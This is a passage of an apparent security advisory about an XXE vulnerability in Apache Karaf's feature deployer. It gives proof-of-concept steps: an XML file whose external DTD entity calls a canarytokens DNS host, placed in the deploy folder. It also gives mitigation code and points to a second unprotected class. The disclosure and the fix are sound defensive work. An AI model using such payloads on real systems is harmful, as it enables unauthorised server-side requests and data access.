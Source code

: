 4. Craft a XML file and add an external entity with the generated DNS token embedded in DTDs as below:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```
5. Copy the crafted XML file under folder `deploy`
```Shell
apache-karaf-4.2.0$ cd deploy/
deploy$ tree
.
├── README
└── poc.xml
```
6. Wait for a while, and then you will see the DNS requests from your testing machine, which means the XML parser is trying to load external entities embedded in DTDs

   ![](http://avfisher.win/wp-content/uploads/2018/08/xxe_karaf-1024x524.png)

# Mitigation
Follow the OWASP guide below which provides concise information to prevent this vulnerability.
<https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#Java>

For instance, adding codes below to disable DTDs and external entities in function [`getRootElementName`](https://github.com/apache/karaf/blob/karaf-4.2.1/deployer/features/src/main/java/org/apache/karaf/deployer/features/FeatureDeploymentListener.java#L258).
```Java
xif.setProperty(XMLInputFactory.SUPPORT_DTD, false); // This disables DTDs entirely for that factory
xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // disable external entities
```

# Extra information
Apart from the finding mentioned above, I also found another class [`XmlUtils`](https://github.com/apache/karaf/blob/karaf-4.2.1/util/src/main/java/org/apache/karaf/util/XmlUtils.java) in Apache Karaf project didn't add any protection from XXE vulnerability when parsing XML document.
```Java
package org.apache.karaf.util;

import java.io.File;
import java.io.IOException;
import java.io.InputStream;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import javax.xml.parsers.SAXParserFactory;
import javax.xml.transform.Result;
import javax.xml.transform.Source;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import javax.xml.transform.TransformerException;
import javax.xml.transform.TransformerFactory;

import org.w3c.dom.Document;
```